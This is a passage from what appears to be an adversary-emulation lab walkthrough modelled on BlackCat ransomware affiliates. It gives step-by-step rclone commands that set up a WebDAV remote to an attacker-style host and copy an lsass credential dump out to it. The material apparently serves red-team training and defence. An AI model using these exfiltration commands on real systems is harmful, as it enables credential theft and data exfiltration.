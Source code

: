 * Change directory to the directory containing the rclone executable:
  ```
  cd C:\Users\zorimoto\Downloads\rclone-v1.64.0-windows-amd64\rclone-v1.64.0-windows-amd64
  ```

* Using the `cmd.exe` terminal, configure rclone for exfil via WebDAV
  ```
  rclone config
  ```
  * On entry to the rclone config console, type `n` for "New remote" then press
  Enter
  * For the name of the remote, type `webdav` then press Enter
  * For the type of storage to configure, type `49` for "WebDAV" then press
  Enter
  * For the URL of the host to connect to, type `http://luffaplex-dillpickle-inator.com:8080`
  then press Enter
  * For name of the WebDAV site, type `6` for "Other site/service or software"
  then press enter
  * For the user, press Enter to leave blank
  * For the password, press Enter to leave blank
  * For the token, press Enter to leave blank
  * For editing the advanced config, press Enter for "no"
  * Ensure the output configuration confirmation looks like the below
    ```
    - type: webdav
    - url: http://luffaplex-dillpickle-inator.com:8080
    - vendor: other
    ```
  * For keeping the "webdav" remote, type `y` for "Yes this is OK" and press
  Enter
  * You should now see `webdav` in the table of Current remotes. Type `q` to
  exit the rclone config console.

* Using the `cmd.exe` terminal, exfiltrate the DMP file using rclone
  ```
  rclone copy "C:\Users\windesk\AppData\Local\Temp\lsass.DMP" webdav:
  ```

* :arrow_right: Switch to your Kali RDP session and check for the exfiltrated
lsass.DMP file
  ```
  sudo ls -l /srv/http
  ```

### :mag: Reference Code & Reporting
1. https://www.mandiant.com/resources/blog/alphv-ransomware-backup
1. https://www.microsoft.com/en-us/security/blog/2022/06/13/the-many-lives-of-blackcat-ransomware/
1. https://duo.com/decipher/prolific-affiliate-threat-groups-linked-to-blackcat-ransomware

<details><summary>:link: Click to expand source code links table</summary></details>

<br>

## Step 4 - Collection & Exfiltration
